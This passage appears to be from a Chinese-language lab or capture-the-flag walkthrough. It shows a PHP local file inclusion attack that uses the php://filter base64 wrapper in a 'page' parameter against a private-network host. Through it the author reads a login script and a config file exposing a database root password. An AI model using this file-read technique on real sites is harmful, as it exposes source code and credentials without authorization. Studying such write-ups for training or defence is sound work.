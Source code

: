 http://192.168.10.169/?page=php://filter/read=convert.base64-encode/resource=login 得到的内容使用 base64 解码，我们看到了源码，其中还有一个 config 文件：

```php
<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
	$luser = $_POST['user'];
	$lpass = base64_encode($_POST['pass']);

	$stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
	$stmt->bind_param('ss', $luser, $lpass);

	$stmt->execute();
	$stmt->store_Result();

	if ($stmt->num_rows == 1)
	{
		$_SESSION['user'] = $luser;
		header('Location: ?page=upload');
	}
	else
	{
		echo "Login failed.";
	}
}
else
{
	?>
	<form action="" method="POST">
	<label>Username: </label><input id="user" type="test" name="user"><br />
	<label>Password: </label><input id="pass" type="password" name="pass"><br />
	<input type="submit" name="submit" value="Login">
	</form>
	<?php
}
```

http://192.168.10.169/?page=php://filter/read=convert.base64-encode/resource=config

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

http://192.168.10.169/?page=php://filter/read=convert.base64-encode/resource=index

